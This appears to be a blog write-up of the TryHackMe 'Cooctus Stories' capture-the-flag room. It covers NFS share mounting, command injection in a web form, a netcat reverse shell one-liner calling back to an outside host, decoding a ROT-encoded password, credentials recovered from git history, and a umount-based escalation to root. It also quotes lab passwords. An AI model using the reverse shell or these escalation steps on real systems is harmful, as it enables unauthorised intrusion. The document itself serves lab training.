 ```yaml
---
layout: post
title: "Cooctus Stories | THM "
date: 2021-12-18 17:17:00 -0000
categories: CTF THM
---
```

Cooctus Stories | THM 
12 - 19 - 21 

10.10.118.63

<h2> nmap </h2> 
22/tcp   open  ssh
111/tcp  open  rpcbind
2049/tcp open  nfs
8080/tcp open  http-proxy
35521/tcp open  nlockmgr 1-4 (RPC #100021)
47325/tcp open  mountd   1-3 (RPC #100005)
53991/tcp open  mountd   1-3 (RPC #100005)
58267/tcp open  mountd   1-3 (RPC #100005)

<h2> Web </h2>

gobuster 
/login 
/cat 

<h2> NFS </h2> 

Theres nfs running on the server so that means that there should be a share that is up and running. 

showmount -e 10.10.118.63
Export list for 10.10.118.63:
/var/nfs/general *

sudo mount -t nfs 10.10.118.63:/var/nfs/general /tmp/nfs -nolock
* if you get an error here, try rebooting your device 

theres a file called credentials.bak in the share and we have either a username or a password here. 
paradoxial.test
ShibaPretzel79

we have bypassed the login. 

<h2> Post Login </h2>

We have a form where we can post something and we need to escape it to read credentials or post a file.

Its a post method and returns your input in a body tag after submitting. 

ping seemed to work, so lets just keep trying reverse shell till we get one that works. 

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f the classic works!  

So we are in now and can grab the first flag. Then, if we read the crontab, there is an interesting script running from the user szymex. 


#!/usr/bin/python3
import os
import random

def encode(pwd):
    enc = ''
    for i in pwd:
        if ord(i) > 110:
            num = (13 - (122 - ord(i))) + 96
            enc += chr(num)
        else:
            enc += chr(ord(i) + 13)
    return enc


x = random.randint(300,700)
y = random.randint(0,255)
z = random.randint(0,1000)

message = "Approximate location of an upcoming Dr.Pepper shipment found:"
coords = "Coordinates: X: {x}, Y: {y}, Z: {z}".format(x=x, y=y, z=z)

with open('/home/szymex/mysupersecretpassword.cat', 'r') as f:
    line = f.readline().rstrip("\n")
    enc_pw = encode(line)
    if enc_pw == "pureelpbxr":
        os.system("wall -g paradox " + message)
        os.system("wall -g paradox " + coords)

As you can see here, there is a password encoded in the script and it looks like it is doing a ROT to it. As ord takes the numerical value and translates it into a character. When the script is adding numbers together it is just changing the position. If we fire up cyberchef, we can get that password quickly. 

<h2> Szymex </h2> 

If we read the note in tux's directory, it seems like there are a series of challenges we must beat to get his password. 

tuxling_1  
First challenge has a bunch of c code that has been set-up with define statements. There are only 3 we need, f96050ad61. Thats key 1 

tuxling_2  
We have to find this one first.  
find / -type d -name tuxling_2 2>/dev/null
/media/tuxling_2
gpg import and decrypt! - 6eaf62818d  

tuxling_3 
This one is just reading the note - 637b56db1552

all together - f96050ad616eaf62818d637b56db1552
tuxykitty

<h2> tux </h2>

We can run a command as varg through sudo -l. Its a python script so lets see what it can do.  It asks for a password to login. Hm we cant get any further.

If we look in his directory again we can find that there is a hidden git folder. We can read some of the comments through cat but not all. If we run git show - we get the entire log and we can see a hard coded user and pass 
varg:slowroastpork

<h2> root </h2> 

Varg is allowed to run (root) NOPASSWD: /bin/umount. So how do we exploit umount to get root? After reseraching and reading other writeups I found that you can list the mounts and then look for abnormal mounts. 

We find an abornmal mount at /opt/coocktusos. if we unmount it, theres a root flag! but its a fake.However, there are ssh keys we can exploit. Copy them over to the attacking machine and then ssh back in as root for the flag.txt

This was a great room that took me around 3 hours  to crack! Very grateful for the other writeups for helping me with the last root esc. 




